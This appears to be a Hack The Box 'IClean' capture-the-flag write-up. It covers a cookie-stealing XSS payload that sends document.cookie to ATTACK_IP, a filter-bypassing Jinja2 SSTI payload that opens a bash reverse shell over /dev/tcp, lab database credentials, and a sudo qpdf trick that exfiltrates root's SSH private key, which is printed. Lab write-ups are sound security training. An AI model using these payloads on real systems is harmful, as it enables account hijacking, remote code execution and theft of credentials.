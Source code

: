 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - IClean
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/77342afa-8fe8-4c2c-9e4d-d5107846e910)

```
echo "10.10.11.12 iclean.htb" | sudo tee -a /etc/hosts
```
when i navigate to `http://iclean.htb` it redirect to `http://capiclean.htb` so I added that to `/etc/hosts` and access

```
echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/047ffcfd-bf87-4ddc-b88d-9d0c742ab331)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/ef48bed0-5028-4144-a7a2-bf985d38a111)

```
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u "http://capiclean.htb/FUZZ" --hc 404 --hl 348
```
I found a `quote` directory, let's have a look.

I fired up burp suite and capture the requests and tested various input vectors and payloads. and I identified a potential vulnerability that could be exploited further.

first I started python3 http server 
```
python3 -m http.server 1234
```

then put the below payload in the service paratmeter and encoded the payload string by using `Ctrl+U` and send the request.

```
<img src=x onerror=fetch("http://ATTACK_IP:1234/"+document.cookie);>
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6713ecac-e68e-4f05-b771-cd4c83612b94)

Then after sometime I get the `Cookie`. Yooo!

let's store this cookie using cookie-editor and access the `/dashboard`.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/7b829ff5-2097-45ae-88dc-f431514979e4)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/2e959db4-2fbc-4a8f-801b-dd8c34a2876c)

Visit http://capiclean.htb/InvoiceGenerator to generate an ID and fill it in casually. The ID generated here is # 3873147880

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8d38560a-d949-4cc1-95bd-730a1671daba)

Then visit http://capiclean.htb/QRGenerator, fill in the above ID, and a QR code image link will be generated.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b462ddd3-9e3d-41a1-9711-92ebc09d9288)

and let's use Burpsuite to captures request.

#### Web Exploitation :

During all this Request you will get a POST Request on `/QRGenerator` which is likely Vulnerable to **SSTI** because as it is a **Flask Application it is running Jinja Template in Background**.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8b714199-da5d-49ab-b4d1-13ae6e64c03a)

To test it I put Basic Payload in qr_link Parameter → `{{7*7}}` and Boom I get `49` in Response

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/86b4b571-b89e-4940-9b9f-d8549a4315ff)

I attempted to exploit further to achieve Remote Code Execution (RCE). However, I discovered that the typical Jinja2 Server-Side Template Injection (SSTI) payload was ineffective. then i found this article and it help to find a bypass payload.

https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/

```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/ATTACK_IP/4444 0>&1'")|attr("read")()}}
```

so first thing i started a netcat listener

```
nc -nlvp 4444
```
then put the payload in the qr_link parameter and use `Ctrl+u` encode it and then send the request.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/13c1e2cc-265a-4a34-9588-9692fec8e15f)

We able to obtain a shell as www-data.


### User Flag

After traversing directories and examining files, I identified the `app.py` file, which inadvertently exposes the MySQL database credentials. Leveraging this discovery, I successfully gained access to the database.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/c7bbb004-0e8b-4ac9-9558-e6a8d1ceb5d0)

```
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

before accessing mysql let's harden the shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```
now let's access the mysql:

```
mysql -h 127.0.0.1 -u iclean -p capiclean
```

```
show tables;
select * from users;
```

Enter the password that we found.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/da5a1618-e423-4c3e-91c1-9cbf37110c08)

Let's use `Cracksation` to crack the hashes. https://crackstation.net/

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d8da72e6-e58f-44e1-bd47-b9c23fa58549)

so let's use this credential to login as user `consuela`

```
su consuela
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/ecdbe8bd-d166-41b3-bb32-f0b1428a5942)

### Root Flag

```
sudo -l
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/01d97bbc-4987-48f6-bc9d-a0f222a26f90)

So I can ran `qpdf` Command. So after searching in Google I found this documentation.
https://qpdf.readthedocs.io/en/stable/cli.html

First, utilize the `-empty` parameter to create an empty document. Next, employ the `-qdf` parameter to generate a PDF file in QDF mode. Then, utilize the `-add-attachment` parameter to append a file as an attachment to the PDF. This time, employ the root's `id_rsa`, and name the generated file `id_rsa.pdf`.

let's run this command:

```
sudo /usr/bin/qpdf --empty --qdf --add-attachment /root/.ssh/id_rsa -- id_rsa.pdf
```
and it generated `id_rsa.pdf` let's `cat` that.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e34d765e-ea11-4276-a868-bf023d9a2aac)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/0512c977-3190-4e40-b063-e429a0b3953a)

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

let's creat the `id_rsa` file and granting the required privileges with `chmod 600 id_rsa`, I used SSH with the `-i` option to specify the private key and connect to the server

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/ff52607b-1b6d-432c-8d52-1cec082c979e)


